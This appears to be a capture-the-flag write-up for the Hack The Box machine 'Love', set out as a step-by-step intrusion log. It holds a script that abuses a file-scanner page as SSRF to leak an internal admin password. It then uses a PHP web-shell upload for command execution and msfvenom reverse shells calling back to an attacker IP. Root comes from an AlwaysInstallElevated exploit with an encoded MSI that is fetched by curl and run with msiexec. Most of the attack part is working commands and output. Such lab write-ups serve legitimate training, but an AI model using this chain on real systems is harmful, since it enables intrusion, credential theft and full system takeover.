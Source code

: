 ## Info 
### Credential
User   | Password            | Service | Notes
-------|---------------------|---------|-------
phoebe |                     |         |
roy    |                     |         | email: roy@love.htb
admin  | @LoveIsInTheAir!!!! | voting  |
### Host
- hostname: staging.love.htb, love.htb, 
- OS: Windows 10 Pro 19042
- Computer Name: Love

### Http (80)
- `/`: voting system login
- `/admin`: voting admin login
- `staging.love.htb`: file scanner, can upload files

### Https (443)
- 403 from remote

### Http (5000)
- 403 from remote
- Credential of admin from 127.0.0.1
```
Vote Admin Creds admin: @LoveIsInTheAir!!!!
```



## Path
### User
1. By trying at `/admin/index.php`, I found it has an user `admin`.
2. Found `staging.love.htb` has  an file upload webpage, which we can use to read the file on the server.
```
# read-file.py
import requests as rq

url ='http://staging.love.htb/beta.php'

def read_file(f, end=None):
        res = rq.post(url, data={'file': f, 'read': 'Scan file'}).text
        start = res.find('value="Scan file')+30
        if end:
                end = start + end
                print(res[start:end])
        else:
                print(res[start:])
```
3. Use above script to view `http://127.0.0.1:5000` and get admin's credential `@LoveIsInTheAir!!!!`
```
>>> read_file('http://127.0.0.1:5000', 2000)
...
<strong>Vote Admin Creds admin: @LoveIsInTheAir!!!!
```
4. Login as admin and found that voters' images can upload file and trigger RCE.
5. Get user flag with RCE.
```
$ curl 'http://10.10.10.239/images/rev.php?cmd=type%20C:\Users\phoebe\Desktop\user.txt'
XXXXXXXXXXXXXXXXXXXXXX
```
6. Upload a windows exe reverse shell, then use php RCE to execute it, then get the sweety reverse shell and get user flag.
```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.3 LPORT=13337 -f exe > reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes

# upload reverse.exe

# visit http://10.10.10.239/images/rev.php?cmd=.\reverse.exe 

$ nc -lvnp 13337
Listening on 0.0.0.0 13337
Connection received on 10.10.10.239 54473
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>
```

### Root
1. Run `winPEASx64.exe` shows that there is AlwaysInstallElevated vulnerability. So generate the payload using `msfvenom`, then install the `.msi` on the remote to get SYSTEM reverse shell. Install msi takes time, be patient.
```
# Remote
> .\winPEASx64.exe
...
[+] Checking AlwaysInstallElevated
[?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!

# Local
$ msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.16.3 LPORT=13337 --encoder x
64/xor --iterations 9 --format msi --out rev.msi
Found 1 compatible encoders
Attempting to encode payload with 9 iterations of x64/xor
x64/xor succeeded with size 503 (iteration=0)
x64/xor succeeded with size 543 (iteration=1)
x64/xor succeeded with size 583 (iteration=2)
x64/xor succeeded with size 623 (iteration=3)
x64/xor succeeded with size 663 (iteration=4)
x64/xor succeeded with size 703 (iteration=5)
x64/xor succeeded with size 743 (iteration=6)
x64/xor succeeded with size 783 (iteration=7)
x64/xor succeeded with size 823 (iteration=8)
x64/xor chosen with final size 823
Payload size: 823 bytes
Final size of msi file: 159744 bytes
Saved as: rev.msi
$ python3 -m http.server

# Remote
> curl 10.10.16.3:8000/rev.msi --output rev.msi
> msiexec /i rev.msi

# Local
$ nc -lvnp 13337
Listening on 0.0.0.0 13337
Connection received on 10.10.10.239 54556
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.


C:\WINDOWS\system32>whoami
nt authority\system
```
2 Get root flag!
 
